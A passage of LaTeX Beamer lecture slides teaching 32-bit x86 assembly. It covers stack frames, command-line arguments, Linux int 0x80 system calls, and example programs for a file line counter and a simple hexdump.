    pushl %ebp        # Function is responsible for saving this in cdecl!
    movl %esp, %ebp   # Anchor %ebp at the current %esp
    # Stack is now
    # |    ...     |
    # |      5     | <- %esp+8  %ebp+8
    # | retaddr    | <- %esp+4  %ebp+4
    # |  old %ebp  | <- %esp    %ebp
    # Argument is at %ebp+8

    subl $12, %esp   # Allocate 4 bytes on the stack
    # Stack is now
    # |    ...     |
    # |      5     | <- %esp+20  %ebp+8
    # | retaddr    | <- %esp+16  %ebp+4
    # |  old %ebp  | <- %esp+12  %ebp
    # | local var  | <- %esp+8   %ebp-4
    # | local var  | <- %esp+4   %ebp-8
    # | local var  | <- %esp     %ebp-12
    # Argument is still always at %ebp+8
    # Allocated memory always accessible at %ebp-4, %ebp-8, %ebp-12
\end{gascode*}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Frame Pointer Epilogue}
\begin{itemize}
  \item To have a valid return address on the stack, we must reset {\ttfamily \%esp} to its previous value and pop the saved frame pointer
  \item This conveniently also deallocates any space we allocated on the stack
\end{itemize}
\begin{gascode*}{textsize=\textsize{9}{8}}
    movl %ebp, %esp   # Restore %esp, deallocating space on the stack
    popl %ebp         # Restore the frame pointer
    ret               # Return
\end{gascode*}
\end{frame}

\begin{frame}[fragile]
\frametitle{Stack Frame in a Nutshell}
\mvs
\begin{figure}
\centering

\includegraphics[width=0.60\textwidth]{figures/stackframe.png}
\end{figure}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Example of using the Frame Pointer (example-11.S)}
\mvs
\begin{gascode*}{textsize=\textsize{9}{8}}
.section .text
_start:
  pushl $22
  pushl $20
  pushl $42
  pushl $3
  call sumNumbers
  addl $16, %esp
  # %eax is now 84

  sumNumbers:
    # Function prologue, save old frame pointer and setup new one
    pushl %ebp
    movl %esp, %ebp
    # Allocate a dword on the stack, accessible at %ebp-4
    subl $4, %esp

    movl $0, %eax       # Clear %eax
    movl $0, %ecx       # Clear %ecx
    movl 8(%ebp), %edx  # Copy argument 1, n, into %edx

\end{gascode*}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Example of using the Frame Pointer (example-11.S)}
\mvs
\begin{gascode*}{textsize=\textsize{9}{8}}
    sumLoop:
      # Add argument 2, 3, 4, ... n+1 in %eax
      # Argument 2 starts at %ebp+12
      addl 12(%ebp, %ecx, 4), %eax
      incl %ecx

      # Loop
      decl %edx
      jnz sumLoop

    # Function epilogue, deallocate and restore old frame pointer
    movl %ebp, %esp
    popl %ebp
    ret
\end{gascode*}
\end{frame}

\section{Topic 8: Command-line Arguments}

\begin{frame}[fragile,t]
\frametitle{argc and **argv on the stack}
\mvs
\begin{itemize}
  \item In the {\ttfamily \_start} entry point, first argument on the stack is {\ttfamily argc}, followed by {\ttfamily argv[0], argv[1], ...}
\end{itemize}
\begin{gascode}
.section .text
.global _start
_start:
  pushl %ebp
  movl %esp, %ebp
  # argc is at %ebp+4, argv[0] is at %ebp+8, argv[1] is at %ebp+12
\end{gascode}
\begin{itemize}
  \item In the {\ttfamily main} entry point with libc, {\ttfamily argc, **argv} will be on the stack after the return address to libc, we have to dereference to get to the args!
\end{itemize}
\begin{gascode}
.section .text
.global main
main:
  pushl %ebp
  movl %esp, %ebp
  # return address from libc is at %ebp+4
  # argc is at %ebp+8, **argv is at %ebp+12
  # *argv[0] = *(%ebp+12), *argv[1] = *(%ebp+12)+4
\end{gascode}
\end{frame}

\section{Putting it together: File Line Counter}

\begin{frame}[fragile,t]
\frametitle{File Line Counter in C (example-12-c.c)}
\mvs
\begin{ccode*}{fontsize=\fontsize{9}{8}}
#include <stdio.h>

int main(int argc, char *argv[]) {
  FILE *fp; char c; unsigned int lc;

  if (argc < 2) {
    printf("usage: %s <file>\n", argv[0]);
    return -1;
  }

  fp = fopen(argv[1], "r");
  if (fp == NULL) {
    printf("error opening file!\n");
    return -1;
  }

  lc = 0;
  while ((c = fgetc(fp)) != EOF) {
    if (c == '\n')
      lc++;
  }

  printf("%d\n", lc);

  fclose(fp);
  return 0;
}
\end{ccode*}
\end{frame}


\begin{frame}[fragile,t]
\frametitle{File Line Counter (example-12.S)}
\mvs
\begin{gascode}
.section .text
.global main

# int main(int argc, char *argv[]) {
main:
  # Function prologue
  pushl %ebp
  movl %esp, %ebp

  # Allocate space for FILE *fp; unsigned int lc;
  subl $8, %esp

  # libc retaddr at %ebp+4
  # argc is at %ebp+8
  # **argv is at %ebp+12
  # *argv[0] is at *(%ebp+12)+0
  # *argv[1] is at *(%ebp+12)+4
  # FILE *fp is at %ebp-4
  # unsigned int lc at %ebp-8

  # if (argc < 2)
  movl 8(%ebp), %ecx    # Copy argc to %ecx
  cmpl $2, %ecx
  jl printUsage
\end{gascode}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{File Line Counter (example-12.S) Continued}
\mvs
\begin{gascode}
  movl 12(%ebp), %eax   # Copy argv to %eax
  addl $4, %eax         # Add 4 to yield *argv[1]
  movl (%eax), %eax     # Derefence to yield argv[1]

  # fopen(argv[1], "r");
  pushl $openMode
  pushl %eax
  call fopen
  addl $8, %esp
  # fp = ...
  movl %eax, -4(%ebp)

  # if (fp == NULL)
  test %eax, %eax
  jz errorOpen

  # lc = 0;
  movl $0, -8(%ebp)






  # --continued-->
\end{gascode}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{File Line Counter (example-12.S) Continued}
\mvs
\begin{gascode}
  read_loop:
    # %eax = fgetc(fp);
    pushl -4(%ebp)
    call fgetc
    addl $4, %esp

    # if (c == EOF) break;
    cmpl $-1, %eax
    je print_count
    # if (c != '\n') continue;
    cmpl $0x0A, %eax
    jne read_loop
    # lc += 1
    addl $1, -8(%ebp)
    jmp read_loop

  print_count:
    # printf("%d\n", lc);
    pushl -8(%ebp)
    pushl $countStr
    call printf
    addl $8, %esp
    # return 0;
    movl $0, %eax
    jmp finished
\end{gascode}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{File Line Counter (example-12.S) Continued}
\mvs
\begin{gascode}
  printUsage:
    # printf("usage %s <file>\n", argv[0]);
    movl 12(%ebp), %eax
    pushl (%eax)
    pushl $usageStr
    call printf
    addl $8, %esp
    # return -1;
    movl $0, %eax
    notl %eax
    jmp finished

  errorOpen:
    # printf("error opening file!\n");
    pushl $errorOpenStr
    call printf
    addl $4, %esp
    # return -1;
    movl $0, %eax
    notl %eax
    jmp finished

  finished:
  movl %ebp, %esp
  popl %ebp
  ret
\end{gascode}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{File Line Counter (example-12.S) Continued}
\mvs
\begin{gascode}
.section .data
openMode:     .ascii "r\0"
countStr:     .ascii "%d\n\0"
usageStr:     .ascii "usage: %s <file>\n\0"
errorOpenStr: .ascii "error opening file!\n\0"
\end{gascode}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{File Line Counter (example-12.S) Runtime}
\mvs
\begin{textcode}
$ as example-12.S -o example-12.o
$ gcc example-12.o -o example-12
$ ./example-12 /usr/include/stdio.h
944
$ wc /usr/include/stdio.h
  944  4430 31657 /usr/include/stdio.h
$
\end{textcode}
\end{frame}

\section{Topic 9: System Calls}

\begin{frame}[fragile,t]
\frametitle{The User Program Condition}
\begin{itemize}
  \item Monolithic kernel like Linux completely sandboxes a user program
  \begin{itemize}
  \item User program executes at a lower CPU privillege
  \item Virtual memory hides other programs, restricts access to kernel memory and memory-mapped I/O
  \end{itemize}
  \pause
  \item User program can effectively only do pure computation and manipulate user memory mapped by the OS
\end{itemize}
\begin{figure}
\centering

\includegraphics[height=0.45\paperheight]{figures/monolithic.png}
\end{figure}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Interrupts and System Calls}
\begin{itemize}
  \item CPU is capable of servicing hardware and software interrupts
  \begin{itemize}
    \item timer tick, DMA exchange complete, divide-by-zero
  \end{itemize}
  \item External interrupts can happen asynchronously --- are not polled --- and \textbf{interrupt} current program
  \item CPU saves current state in an architecture-specific way, switches to privileged mode, and jumps to the interrupt handler in the kernel
  \pause
  \item Software interrupt, instruction {\ttfamily int <number>}, provides a mechanism to make a request to the kernel to do something user program cannot
  \item System call
\end{itemize}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Linux System Calls}
\mvs
\begin{itemize}
  \item Currently 338 system calls
  \item Common ones are {\ttfamily exit(), read(), write(), open(), close(), ioctl(), fork(), execve()}, etc.
  \pause
  \begin{itemize}
  \item Get more obscure as the system call number goes up
  \item {\ttfamily less /usr/include/asm/unistd\_32.h}
  \item {\ttfamily man 2 syscalls}
  \end{itemize}
  \pause
  \item Operating System specific convention for making a system call
  \item On Linux it is:
  \begin{itemize}
    \item system call number in {\ttfamily \%eax}
    \item arguments in order {\ttfamily \%ebx, \%ecx, \%edx, \%esi, \%edi}
    \item invoke software interrupt with vector {\ttfamily 0x80}: {\ttfamily int \$0x80}
    \item return value in \%eax
  \end{itemize}
  \item All registers preserved except for {\ttfamily \%eax}
  \item Passes arguments in registers, not the stack like {\ttfamily cdecl}
\end{itemize}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Linux System Calls Reference}
\begin{itemize}
  \item \url{http://syscalls.kernelgrok.com/}
\end{itemize}
\begin{figure}
\centering

\includegraphics[height=0.50\paperheight]{figures/syscalls.png}
\end{figure}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Example of System Calls (example-13.S)}
\mvs
\begin{gascode}
.section .text
_start:
  # syscall open("foo", O_CREAT | O_WRONLY, 0644);
  movl $0x05, %eax
  movl $filename, %ebx
  movl $0x41, %ecx
  movl $0644, %edx
  int $0x80

  # fd in %eax from open(), move it to %ebx for write()
  movl %eax, %ebx

  # syscall write(fd, message, messageLen);
  movl $0x04, %eax
  # fd in %ebx from above
  movl $message, %ecx
  movl $messageLen, %edx
  int $0x80

  # syscall close(fd);
  movl $0x06, %eax
  # fd still in %ebx
  int $0x80
\end{gascode}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Example of System Calls (example-13.S)}
\mvs
\begin{gascode}
  # syscall exit(0);
  movl $0x01, %eax
  movl $0x0, %ebx
  int $0x80

.section .data
filename:   .ascii "foo\0"
message:    .ascii "Hello World!\n"
.equ messageLen, . - message
\end{gascode}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Example of System Calls (example-13.S) Runtime}
\mvs
\begin{textcode}
$ as example-13.S -o example-13.o
$ ld example-13.o -o example-13
$ ./example-13
$ cat foo
Hello World!
$
\end{textcode}
\end{frame}

\begin{frame}[fragile,t]
\frametitle{Example of System Calls (example-13.S) Disassembly}
\mvs
\begin{customobjdumpcode*}{textsize=\textsize{9}{8}}
$ as example-13.S -o example-13.o && ld example-13.o -o example-13 &&
   ojbdump -D example-13

Disassembly of section .text:
08048074 <_start>:
 8048074: b8 05 00 00 00        mov    $0x5,%eax
 8048079: bb b0 90 04 08        mov    $0x80490b0,%ebx
 804807e: b9 41 00 00 00        mov    $0x41,%ecx
 8048083: ba a4 01 00 00        mov    $0x1a4,%edx
 8048088: cd 80                 int    $0x80
 804808a: 89 c3                 mov    %eax,%ebx
 804808c: b8 04 00 00 00        mov    $0x4,%eax
 8048091: b9 b4 90 04 08        mov    $0x80490b4,%ecx
 8048096: ba 0d 00 00 00        mov    $0xd,%edx
 804809b: cd 80                 int    $0x80
 804809d: b8 06 00 00 00        mov    $0x6,%eax
 80480a2: cd 80                 int    $0x80
 80480a4: b8 01 00 00 00        mov    $0x1,%eax
 80480a9: bb 00 00 00 00        mov    $0x0,%ebx
 80480ae: cd 80                 int    $0x80

Disassembly of section .data:
080490b0 <filename>:
 80490b0: 66 6f                 outsw  %ds:(%esi),(%dx)
 80490b2: 6f                    outsl  %ds:(%esi),(%dx)
  ...
\end{customobjdumpcode*}
\end{frame}

\section{Putting it together: Simple hexdump}

\begin{frame}[fragile,t]
\mvs
\frametitle{Simple Hexdump (example-14.S)}
\begin{gascode}
.section .text
.global _start
_start:
    pushl %ebp
    movl %esp, %ebp

    # Allocate int fd; char buff[16]; on stack
    subl $20, %esp

    # Check if argc < 2
    movl 4(%ebp), %eax
    cmpl $2, %eax
    jl exit

    # syscall open(argv[1], O_RDONLY);
    movl $0x05, %eax
    movl 12(%ebp), %ebx
    movl $0x00, %ecx
    int $0x80

    # Check if fd < 0
    test %eax, %eax
    jl exit

    # Copy %eax to fd local variable
    movl %eax, -4(%ebp)
\end{gascode}
\end{frame}

\begin{frame}[fragile,t]
\mvs
\frametitle{Simple Hexdump (example-14.S) Continued}
\begin{gascode*}{textsize=\textsize{9}{8}}
    read_loop:
        # syscall read(fd, buff, 16);
        movl $0x03, %eax
        movl -4(%ebp), %ebx   # fd
        leal -20(%ebp), %ecx  # address %ebp-20, our buff[16]
        movl $16, %edx
        int $0x80
        # Check for error on read
        cmpl $0, %eax
        jle cleanup

        # %esi = index, %edi = count
        movl $0, %esi
        movl %eax, %edi

        byte_loop:
            # Fetch the byte from our buff
            movb -20(%ebp, %esi, 1), %al
            # Print out the byte as ASCII hex
            pushl %eax
            call putbyte
            addl $4, %esp
            # Print out a space
            pushl $' '
            call putchar
            addl $4, %esp
\end{gascode*}
\end{frame}

\begin{frame}[fragile,t]
